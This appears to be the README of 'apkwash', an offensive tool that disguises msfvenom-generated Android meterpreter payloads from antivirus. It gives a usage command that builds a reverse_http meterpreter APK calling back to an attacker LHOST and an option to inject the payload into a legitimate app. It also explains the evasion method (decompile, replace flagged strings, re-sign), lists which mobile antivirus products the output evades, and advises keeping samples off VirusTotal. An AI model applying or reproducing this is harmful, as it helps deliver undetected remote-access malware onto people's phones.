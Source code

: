 # apkwash
Android APK Antivirus evasion for msfvenom generated payloads.
<br><br>
<b> -- Please do not upload "washed" files to VirusTotal.com -- </b><br>
<br>
<br>
<b> Tested on Kali linux rolling. </b><br>
<br>
<br>
<b>Setup:</b><br>
apt-get update && apt-get upgrade<br>
chmod +x apkwash<br>
mv apkwash /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<br>
<b>Usage:</b><br>
apktool -p android/meterpreter/reverse_http LHOST=192.168.1.40 LPORT=1337 -o \<payload>.apk<br>
<br>
<b>Input Options:</b><br>
-p | --payload \<payload>       : (Default: android/meterpreter/reverse_https) This sets the payload to be generated by msfvenom.<br>
-o | --output \<outfile.apk>    : (Default: payload.apk) This sets the name of the APK created as well as the output filename.<br>
-x | --original \<infile.apk>   : (MSFVenom -x) Input APK to inject the payload into.<br>
-x | --newkey                   : For auto-removing debug key to allow the creation of a new key within the script<br>
-d | --debug                    : Don't remove the /tmp/payload directory
-v | --verbose                  : Don't mask output of commands<br>
-h | --help                      : Help information<br>
<br>
<b>Output:</b><br>
\<payload>.apk & \<payload>.listener<br>
<br>
<b>Antivirus detection:</b><br>
0/35 on nodistribute - 20Mar17<br>
Verified for AVG mobile<br>
Verified for Kaspersky mobile<br>
Verified for Lookout<br>
FLAGGED BY AVAST! -- signature bypass coming soon. Haven't spent any time on this<br>
<br>
<b>Modifiations:</b><br>
Feel free to open the script and make improvements. This script basically utilizes APKTool to open the package, uses sed to replace strings that flag AV, recompiles, then signs.<br>
<br>
<br>
<b>Files:</b><br>
/tmp/payload    (Main files to review: AndroidManifest.xml and the smali files)
<br>
<br>
<b>Debugging</b><br>
Comment out the removal of the /tmp/payload directory to see the file structure that was compiled.<br><br><br>
<b>If you are seeing other "Payload".smali files in /tmp/payload/smali/com/var1/var2/ then be sure you have an updated system. I have found an older msfvenom version output a different payload that will be flagged by AVG (1/35 on nodistribute). Just making sure you are completely updated should resolve this.</b>
